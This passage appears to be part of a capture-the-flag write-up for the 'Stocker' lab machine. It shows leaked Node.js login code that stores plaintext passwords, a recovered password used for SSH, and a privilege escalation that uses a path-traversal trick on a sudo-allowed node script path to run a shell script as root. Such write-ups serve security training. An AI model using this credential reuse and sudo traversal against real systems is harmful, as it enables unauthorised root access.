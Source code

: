 	return res.json(products);  
	});  
	app.get("/login", (req, res) => {  
	if (req.session.user) return res.redirect("/stock");  
	return res.sendFile(__dirname + "/templates/login.html");  
	});  
	app.post("/login", async (req, res) => {  
	const { username, password } = req.body;  
	if (!username || !password) return res.redirect("/login?error=login-error");  
	// TODO: Implement hashing  
	const user = await mongoose.model("User").findOne({ username, password });  
	if (!user) return res.redirect("/login?error=login-error");  
	req.session.user = user.id;  
	console.log(req.session);  
	return res.redirect("/stock");  
	});  
	app.post("/api/order", async (req, res) => {  
	if (!req.session.user) return res.json({});
	```
we got a password 
`IHeardPassphrasesArePrettySecure`

#### ssh as angoose

```zsh
ssh angoose@stocker.htb
```

### Priv Esc

![Untitled](/assets/images/Stocker/Pasted image 20230414024901.png)

we can run node as a sudo only if the script path fit the `/usr/local/scripts/*.js`

the `folder /usr/local/scripts/` is not writable so we need a path traversal trick

inside the home directory we can make our script 
![Untitled](/assets/images/Stocker/Pasted image 20230414031637.png)

and it worked

![Untitled](/assets/images/Stocker/Pasted image 20230414031742.png)

now we can create our script 
``` javascript
const { exec } = require("child_process");

exec("/bin/bash /home/angoose/script.sh", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```
![Untitled](/assets/images/Stocker/Pasted image 20230414032253.png)

```zsh
sudo node /usr/local/scripts/../../../home/angoose/script.js
```
![Untitled](/assets/images/Stocker/Pasted image 20230414032336.png)
